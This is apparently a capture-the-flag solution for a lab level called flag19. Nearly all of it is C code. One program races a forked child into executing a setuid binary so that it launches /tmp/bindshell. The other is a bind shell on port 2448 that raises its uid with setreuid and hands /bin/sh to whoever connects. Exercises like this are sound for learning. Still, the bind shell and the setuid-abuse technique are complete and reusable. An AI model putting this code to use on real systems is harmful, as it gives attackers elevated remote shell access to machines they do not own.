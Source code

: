 
Exploit:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char * argv) {

    pid_t childpid = fork();

    if (childpid == 0) { /* child */
        char *cmd = "/home/flag19/flag19";
        char *argv[] = { "/bin/sh", "-c", "/tmp/bindshell" };

        sleep(3);
        execv(cmd, argv);
    } else { sleep(1); exit(1); }
}
```

Binding shell to port 2448, binary will be called from exploit.

```c
#include <stdio.h>
#include <unistd.h>
#include <sys/socket.h>
#include <netinet/in.h>

int main(int argc, char **argv)
{
        int sockfd;
        int clientfd;
        socklen_t cli_len;

        struct sockaddr_in srv_addr;
        struct sockaddr_in cli_addr;

        srv_addr.sin_family = AF_INET;
        srv_addr.sin_port = htons(2448);
        srv_addr.sin_addr.s_addr = htonl(INADDR_ANY);

        sockfd = socket(AF_INET, SOCK_STREAM, IPPROTO_IP);

        bind(sockfd, (struct sockaddr *)&srv_addr, sizeof(srv_addr));
        listen(sockfd, 0);

        /* accept new connections */
        cli_len = sizeof(cli_addr)-1;
        clientfd = accept(sockfd, (struct sockaddr *)&cli_addr, &cli_len );

        dup2(clientfd, 0); /* replace 0 with clientfd */
        dup2(0, 1);        /* replace stdout & stderr */
        dup2(0, 2); 

        setreuid(geteuid(), geteuid());

        execv("/bin/sh", NULL);
}
```
